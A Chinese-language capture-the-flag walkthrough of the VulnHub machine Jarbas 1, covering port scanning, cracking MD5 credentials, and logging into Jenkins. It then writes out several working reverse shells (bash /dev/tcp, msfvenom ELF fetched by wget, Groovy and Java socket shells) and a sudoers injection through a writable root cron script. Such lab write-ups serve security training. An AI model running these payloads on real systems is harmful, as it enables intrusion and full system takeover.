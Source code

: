 # Jarbas: 1

2024-5-1 https://www.vulnhub.com/entry/jarbas-1,232/

difficulty: not know

## IP

192.168.10.177

## Scan

Open Port -> 22,80,3306,8080

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 28bc493c6c4329573cb8859a6d3c163f (RSA)
|   256 a01b902cda79eb8f3b14debb3fd2e73f (ECDSA)
|_  256 57720854b756ffc3e6166f97cfae7f76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
| http-methods:
|_  Potentially risky methods: TRACE
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

22 ssh 端口，匿名访问无有用信息。

8080 是一个 Jenkins 服务页面，根据经验，Jenkins 登陆后，可以配置执行系统命令，实现反弹 shenll，但是需要我们知道登陆的用户凭据。8080 端口下有一个/robots.txt 文件，提示有一个 build 链接。尝试了弱密码和默认密码登陆都不成功。

80 web 端口是一个网站主页，源代码中也没有什么提示信息。使用 nikto 看看有什么漏洞信息提示，也没有什么重要漏洞提示。

使用 gobuster 进行目录扫描：

```
gobuster dir -t 64 -e -r -k -w ~/tools/dict/fileName5000.txt -u http://192.168.10.177/ -x .php,.txt,.html

http://192.168.10.177/access.html
```

访问下 access 页面，有如下提示信息：

```
Creds encrypted in a safe way!

tiago:5978a63b4654c73c60fa24f836386d87
trindade:f463f63616cb3f1e81ce46b39f882fd5
eder:9b38e2b1e8b12f426b0d208a7ab6cb98
```

得到了 3 个凭据，需要把后面的 md5 值转换成明文，尝试在 md5 网站上找到明文值：

```
tiago:italia99
trindade:marianna
eder:vipsu
```

尝试用上面获得的 3 个凭据，去登陆 Jenkins，只有 eder:vipsu 能登陆成功。

登陆后，直接寻找配置 Jenkins 执行脚本的地方，反弹 shell 到 kali。

### 反弹方法 1：

build 一个项目，在构建环境 build 中选择 Add build step -> Execute shell，并保存以下反弹内容：

```
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.10.3/5555 0>&1"
```

然后在 kali 监听 5555 端口，立即构建任务，就能获得反弹的 shell 了。

### 反弹方法 2：

点击左侧 系统管理->脚本命令执行，在输入框中执行我们的反弹脚本。

先进行个脚本执行测试：

```
println "which python".execute().text
```

能看到 python 的路径信息，执行 python 反弹脚本，但是发现不能反弹，不知道什么原因，尝试生成后门木马，上传后执行。

先在 kali 上创建反弹程序：

```
msfvenom -p linux/x86/exec CMD="/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.10.3/8888 0>&1'" -f elf -o ./shell.elf
```

```
println "wget http://192.168.10.5/shell.elf -O /tmp/shell.elf".execute().text
println "chmod +x /tmp/shell.elf".execute().text
println "/tmp/shell.elf".execute().text

kali:
nc -lvnp 8888
```

最终得到了反弹的 shell，先升级到完整的 tty。

或者执行下面的 groovy 脚本：

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.3/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```
String host="192.168.10.3";
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

寻找提权路径，先查看 /etc/crontab 发现有一个计划脚本是以 root 权限运行：

```
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1

ls -la */5 * * * * root /etc/script/CleaningScript.sh
-rwxrwxrwx. 1 root root 50 Apr  1  2018 /etc/script/CleaningScript.sh
```

发现这个脚本我们有写入权限，直接写入 sudoers：

```
whoami
echo "echo 'jenkins ALL=(ALL)NOPASSWD:ALL' >> /etc/sudoers" >> /etc/script/CleaningScript.sh
```

过了 5 分钟后，jenkins 拥有了完全的 sudo 权限：

```
sudo -l

sudo su

[root@jarbas ~]# cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs
```
